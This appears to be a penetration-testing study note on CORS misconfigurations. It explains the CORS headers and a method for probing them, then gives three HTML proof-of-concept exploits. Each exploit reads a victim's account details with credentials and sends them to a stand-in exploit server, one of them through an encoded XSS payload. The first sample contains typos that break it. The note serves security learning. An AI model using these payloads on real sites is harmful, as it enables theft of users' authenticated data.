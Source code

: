 # References
- [Cross-Origin Resource Sharing - Rana Khalil](https://www.youtube.com/watch?v=t5FBwq-kudw)
- [Portswigger Academy](https://portswigger.net/web-security/cors)

# CORS headers
`Access-Control-Allow-Origin` header: Specifies if the origin is allowed to access the resources of the website. Only access public pages.
The values could be:
```
*
<origin>
null
```
Each with its security implications
`Access-Control-Allow-Credentials: true` Allow authenticated pages
Note: if`Access-Control-Allow-Origin` is set to `*` then the `Access-Control-Allow-Credentials` header is not allowed

# CORS Vulnerabilities
The Access-Control-Allow-Origin header only allows to whitelist one origin, this is a limitation that developers need to circumvent
They use `dynamic generation` to address this limitation
The logic of how an origin is decided to be trusted is what causes the misconfigurations
## Testing Methodology
- Look at server responses and check for "Access-Control-Allow-Origin" or "Access-Control-Allow-Credentials"
- Add or change the origin header to set the current host as a subdomain of an attacker controlled domain "current-host.net.attacker-site.com" and observe the server response
- Add or change the origin header to a subdomain of the current Host value and observe the server response
- Add or change the origin header to an arbitrary value and observe the server response
- Add or change the origin header to "null" value and observe the server response

# Samples
1. Dynamic generation
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
        var xhr = new XMLHttpRequest();
        var url = "https://vulnerable-site.com"
        xhr.onreadoystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                fetch("/log?key=" + xhr.responseText)
            }
        }
        xhr.open('GET', url + "/accountDetails", true);
        xhr.withCrendentials = true;
        xhr.send(null);
        </script>
    </body>
</html>
```

2. Null whitelisted: use an iframe. In the second "x.open" specify the full PATH of the exploit server since the request is coming from a sandboxed iframe
```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display: none" sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        xhr=new XMLHttpRequest();
        xhr.onload=function(){
            const x=new XMLHttpRequest()
            x.open('GET', 'https://exploit-server.net/log?key='+btoa(this.responseText))
            x.send()
        }
        xhr.open('GET', 'https://vulnerable-site/accountDetails', true);
        xhr.withCredentials = true;
        xhr.send();
        </script>"></iframe>
    </body>
</html>

```
3. Insecure HTTP protocol in CORS policy + subdomain vulnerable to XSS
```html
<html>
    <body>
        <script>
        document.location='http://vulnerable-site.net/?parameter=%3Cscript%3Evar%20req%20=%20new%20XMLHttpRequest();%20req.onload%20=%20function(){x%20=%20new%20XMLHttpRequest();%20x.open(%27get%27,%20%27https://exploit-server.net/log?key=%27%2bbtoa(this.responseText));%20x.send()};%20req.open(%27get%27,%27vulnerable-site.net/accountDetails%27,true);%20req.withCredentials%20=%20true;req.send();%3c/script%3E'
        </script>
    </body>
</html>
```
# Extras to read
- https://quitten.github.io/StackStorm/
- https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties
- https://blog.saynotolinux.com/blog/2016/08/15/jetbrains-ide-remote-code-execution-and-local-file-disclosure-vulnerability-analysis/

